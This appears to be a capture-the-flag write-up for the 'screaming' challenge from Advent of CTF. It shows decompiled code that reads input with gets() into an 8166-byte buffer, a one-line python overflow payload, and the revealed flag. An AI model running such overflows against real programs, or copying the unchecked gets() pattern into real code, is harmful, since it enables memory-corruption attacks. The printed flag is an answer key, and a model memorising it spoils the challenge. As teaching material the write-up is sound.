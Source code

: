 ```yaml
---
title: "screaming - Advent Of CTF"
date: 2025-01-01 00:00:00 -0800
categories: CTF AoCTF
tags: rev_eng
---
```


# CTF

AAAAA- I'm not screaming, I'm just buffer overflowing my emotions!

## Attachments

[chall](https://files.vipin.xyz/api/public/dl/RUU8-57Z/advent-of-ctf-csd/screaming/chall)

# Solution

It's logical that this is buffer overflow, so let's look at the source code using ghidra.

The main part of the code is:

```cpp
undefined8 main(void)

{
  long in_FS_OFFSET;
  char local_1ff8 [8166];
  char local_12;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  local_12 = '\0';
  gets(local_1ff8);
  if (local_12 == '\0') {
    puts("not that easy pal :| ");
  }
  else {
    win();
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    // WARNING: Subroutine does not return
    __stack_chk_fail();
  }
  return 0;
}



void _fini(void)

{
  return;
}
```

Here we can see two main variables, one is `local_1ff8` and second is `local_12`. If we take a look at the code, we'll see that we have to rewrite `local_12` Which we can do by `buffer overflow`.

To do buffer overflow, we have to write more than the capacity of the char array, which is `local1_ff8` in this case. since the char has a capacity of 8166, we have to write more than 8166 (Min of 8167) to change the value of `local_12`.

We can accomplish this easily by using python:

```sh
jstr$ python3 -c "print('A'*8166 + 'B')" > payload.txt
jstr$ cat payload.txt | ./chall
Day 2 gotta keep it simple :) Here is the flag: csd{d4y_2_H0w_r_u?}
```

The answer is: `csd{d4y_2_H0w_r_u?}`
